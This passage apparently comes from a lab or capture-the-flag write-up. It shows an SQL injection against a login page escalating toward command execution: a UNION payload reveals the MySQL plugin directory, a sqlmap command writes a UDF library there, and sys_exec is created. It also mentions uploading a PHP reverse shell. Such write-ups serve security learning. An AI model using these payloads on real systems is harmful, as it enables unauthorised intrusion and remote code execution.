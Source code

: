 Our attack method is then this: upload the precompiled library into the MySQL plugin directory, create our custom function, and execute some good stuff (passwd, addusr, whatever).  I first needed to know where the plugin directory was.  A quick [google](https://dev.mysql.com/doc/refman/5.0/en/server-system-variables.html) of MySQL system variables gives us an answer:

```
' UNION SELECT 1,2,3,@@plugin_dir,5,6,7,8-- -
Welcome /usr/lib/mysql/plugin
```

Now we just need to write our library there and create the functions:

```
python sqlmap.py -u 'http://10.10.10.100/login.php' --data='email=bleh&pass=bleh&submit=Login&submitted=TRUE' -p 'email' --file-write=/lib_mysqludf_sys --file-dest=/usr/lib/mysql/plugin/
CREATE FUNCTION sys_exec RETURNS STRING SONAME lib_mysqludf_sys.so
SELECT * FROM information_schema.routines
```

The final SELECT there does not return our newly created function.  According to MySQL documentation, we need INSERT privileges.  Do we have them?

```
[*] 'root'@'localhost' (administrator) [27]:
                privilege: ALTER
                privilege: ALTER ROUTINE
                privilege: CREATE
                privilege: CREATE ROUTINE
                privilege: CREATE TEMPORARY TABLES
                privilege: CREATE USER
                privilege: CREATE VIEW
                privilege: DELETE
                privilege: DROP
                privilege: EVENT
                privilege: EXECUTE
                privilege: FILE
                privilege: INDEX
                privilege: INSERT
                privilege: LOCK TABLES
                privilege: PROCESS
                privilege: REFERENCES
                privilege: RELOAD
                privilege: REPLICATION CLIENT
                privilege: REPLICATION SLAVE
                privilege: SELECT
                privilege: SHOW DATABASES
                privilege: SHOW VIEW
                privilege: SHUTDOWN
                privilege: SUPER
                privilege: TRIGGER
                privilege: UPDATE
```

It appears we do.  In fact, it doesn't seem we have write access to anything; we can't even INSERT into any tables.  We'll come back to why this doesn't work in a bit.  For now, I threw a reverse PHP shell on the box for more control.  I used pentestmonkey's great php-reverse-shell, and soon enough had a prompt:
